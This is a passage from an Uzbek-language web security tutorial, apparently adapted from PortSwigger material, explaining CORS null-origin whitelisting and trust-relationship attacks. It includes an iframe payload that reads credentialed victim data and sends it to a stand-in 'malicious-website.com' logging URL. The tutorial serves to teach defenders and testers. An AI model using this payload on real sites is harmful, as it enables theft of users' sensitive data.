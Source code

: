 server mana bunday javob qaytardi:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Ushbu holatda Haker har xil xiylalarni o'ylab topib null qiymatini Origin headerga qo'shgan holda so'rovlarni yasashi mumkin. Bu esa white listga kirishiga va cross-domain request larni amalga oshirishga sabab bo'ladi. Misol uchun bu quyida keltirilgan iframe li so'rovda ko'rilishi mumkin:

```html
<script>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

:::caution **Lab**
 [Ishonchli null orign bilan CORS zaifligi ≫](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
:::

## CORS ishonch aloqalari orqali [XSS hujumini](../xss/xss-zaifliklarini-exploit-qilish) qilish <a href="#cors-ishonilgan-munosabatlar-orqali-xss-ni-exploit-qilish" id="cors-ishonilgan-munosabatlar-orqali-xss-ni-exploit-qilish"></a>

Hatto "to'g'ri" sozlangan CORS ikkita manba o'rtasida ishonch aloqalarini  o'rnatadki. Agar web sayt XSS ga zaif bo'lgan manbaga ishonsa, unda Haker CORSni ishga solgan holda JavaScript ineksiya hamda XSS xujumlarini amalga oshirishi mumkin.

Quyidagi requestga e'tibor bering:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Agar server quyidagidek response qaytarsa:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
